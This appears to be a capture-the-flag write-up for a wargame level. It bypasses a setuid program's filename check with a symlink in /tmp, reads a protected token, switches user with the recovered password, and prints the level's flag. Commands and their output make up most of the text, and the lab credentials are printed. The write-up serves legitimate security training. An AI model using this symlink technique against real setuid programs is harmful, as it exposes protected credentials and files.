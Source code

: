 ## Level 08

In this level we have 2 files, an executable level08 and a token that we're not able to read

ls -l

        -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
        -rw-------  1 flag08 flag08    26 Mar  5  2016 token

We can create a symlink race to be able to read the content in token file
(more informations about this on https://en.wikipedia.org/wiki/Symlink_race#:~:text=A%20symlink%20race%20is%20a,not%20otherwise%20accessible%20to%20them.)

ln -s /home/user/level08/token /tmp/pass

./level08 /tmp/pass

        quif5eloekouj29ke0vouxean

su flag08 -> quif5eloekouj29ke0vouxean
getflag

                           Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
